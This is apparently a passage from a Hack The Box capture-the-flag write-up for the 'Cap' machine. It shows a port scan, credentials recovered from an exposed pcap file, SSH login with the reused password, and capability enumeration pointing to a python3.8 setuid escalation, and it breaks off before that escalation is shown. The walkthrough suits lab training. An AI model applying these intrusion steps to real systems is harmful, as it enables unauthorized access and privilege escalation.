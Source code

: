 
![](Pasted%20image%2020241201195858.png)

# Enumeration

Performing port scan.

```
┌──[hexadivine@hackthebox]─[~]
└──╼ $ sudo nmap -sS -T5 -p- -r cap.htb -v | grep open
Discovered open port 21/tcp on 10.10.10.245
Discovered open port 22/tcp on 10.10.10.245
Discovered open port 80/tcp on 10.10.10.245
```

Checking the website. This allows us to download the pcap file.

![](Pasted%20image%2020241201202244.png)

We can download multiple pcap files from <http://cap.htb/data/2>, <http://cap.htb/data/3> etc.  

![](Pasted%20image%2020241201202412.png)

However pcap file from <http://cap.htb/data/0> has some sensitive data that I viewed using wireshark.

![](Pasted%20image%2020241201202618.png)

`0.pcap` file contains sensitive data.

![](Pasted%20image%2020241201202824.png)

This FTP username and password can also be used for ssh. Entering to ssh. 

```
┌──[hexadivine@hackthebox]─[~/ctf/tmp]
└──╼ $ ssh nathan@cap.htb
The authenticity of host 'cap.htb (10.10.10.245)' can't be established.
ED25519 key fingerprint is SHA256:UDhIJpylePItP3qjtVVU+GnSyAZSr+mZKHzRoKcmLUI.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'cap.htb' (ED25519) to the list of known hosts.
nathan@cap.htb's password: 
Welcome to Ubuntu 20.04.2 LTS (GNU/Linux 5.4.0-80-generic x86_64)

nathan@cap:~$ ls
user.txt

nathan@cap:~$ cat user.txt 
228a68da7cb3f43a269f6a9c9c913---
```

# Privilege Escalation

This machine has linux capabilities exploit. 

```
nathan@cap:~$ getcap -r / 2>/dev/null

/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
/usr/bin/ping = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep
```

`getcap` file showing
